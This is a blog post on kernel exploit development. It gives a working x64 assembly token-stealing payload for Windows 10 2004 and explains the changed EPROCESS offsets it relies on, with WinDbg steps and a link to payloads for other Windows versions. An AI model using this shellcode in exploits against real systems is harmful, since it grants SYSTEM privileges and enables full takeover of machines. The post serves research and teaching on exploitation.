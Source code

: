 ```yaml
---
layout: post
title: 'Windows 10 2004 (20H1) Token Stealing Payload and EPROCESS Changes'
date: '2020-06-21T00:00:00.000-00:00'
author: Keramas
tags: [kernel,exploit development]
---
```


I recently re-did my Windows kernel debugging environment with the latest version of Windows 10, 2004 (20H1), and while writing a proof of concept for a driver exploit, I noticed that the token stealing payload I was using was breaking due to a bad dereference when it was crawling the EPROCESS structure. This meant that the offsets had once again changed in this new Windows build. 

## Token Stealing Payload 

The following is the updated token stealing payload that works on Windows 10 2004.

```asm
; Windows 10 x64 2004 Token Stealing Payload

[BITS 64]

__start:
	xor rax, rax
	mov rax, [gs:0x188]	; Current thread -> _KTHREAD
	mov rax, [rax + 0xb8]	; Current process -> _EPROCESS
	mov r8, rax		; Move current process' _EPROCESS to r8

__loop:
	mov rax, [rax + 0x448]	; ActiveProcessLinks
	sub rax, 0x448		; Return to current process -> _EPROCESS
	mov rcx, [rax + 0x440]	; UniqueProcessId (PID)
	cmp rcx, 4		; Compare PID to SYSTEM process PID (0x4)
	jnz __loop		; Iterate over EPROCESS nodes until SYSTEM PID is located

	mov r9, [rax + 0x4b8]	; _EPROCESS + 0x4b8 -> token
	mov [r8 + 0x4b8], r9	; Copy SYSTEM token to current process
```

For those who are unfamiliar with how the above payload works to grant system-level privilges, lets walk through the assembly a bit while explaining about the EPROCESS structure.

As the name implies, this payload aims to escalate privileges when it runs in ring 0 by grabbing a system-level token from the System process (PID of 4), and then replacing the current process' token with it. To accomplish this, it crawls several structures in order to reach the token in the System process.

First, Windows stores the location of the KTHREAD structure in the `gs` register at offset `0x188` (`[gs:0x188]`), and at offset 0xb8 of that structure, there is a pointer to the EPROCESS structure of the current process. 

The EPROCESS structure contains various process-related attributes and pointers to other structures. For the token stealing payload, several offsets will need to be gathered:

- Offset to ActiveProcessLinks
- Offset to the UniqueProcessId (the PID of the process)
- Offset to token associated with the process

From WinDBG, the EPROCESS structure can be explored the with the following command:
```
dt nt!_EPROCESS <address of process>
```

<img src = "/assets/images/EPROCESS.png">

The address used in the image is the address of the System process. The `UniqueProcessId` is located at offset `0x440`, and as the value shows, it is `0x4`, which is always the PID of the System process. Additionally, `ActiveProcessLinks` can be found at offset `0x448`. This points to the `LIST_ENTRY` structure which is a doubly-linked list containing EPROCESS nodes. This list is then iterated over and the PID is checked to see whether the value is 0x4 or not. Once it is found, the token of that process will be taken, as the System process is running under the context of nt authority\system. 

<img src = "/assets/images/EPROCESS_TOKEN.png">

The token can be found at offset `0x4b8` in the EPROCESS structure. The value present here will then replace the token of the current process in the final instruction of the payload allowing for the escalation of privileges. 

## Token Stealing Payload Stub 

To help facilitate kernel exploits being used on multiple versions of Windows 10 x64, I organized some code to dynamically grab payloads for version 1607 - 2004 based on the Windows version detected. 

- https://github.com/Keramas/WindowsKernelExploits/tree/master/shellcode


## In Summary / TL;DR

- New offsets within EPROCESS structure for Windows 10 2004
- As it relates to ring 0 token stealing payloads:
  - UniqueProcessId is now at 0x440
  - ActiveProcessLinks is now at 0x448
  - Token is now at 0x4b8
- Update payloads accordingly when running on the latest version of Windows 10